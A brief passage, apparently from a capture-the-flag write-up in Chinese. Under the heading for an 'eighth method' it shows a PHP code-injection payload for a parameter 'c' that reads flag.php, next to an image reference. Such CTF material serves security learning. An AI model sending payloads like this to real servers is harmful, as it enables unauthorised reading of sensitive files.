 ![image-20240120214934752](image/image-20240120214934752.png)

第八种：

```
c=fpassthru(fopen("flag.php", "r"));
```

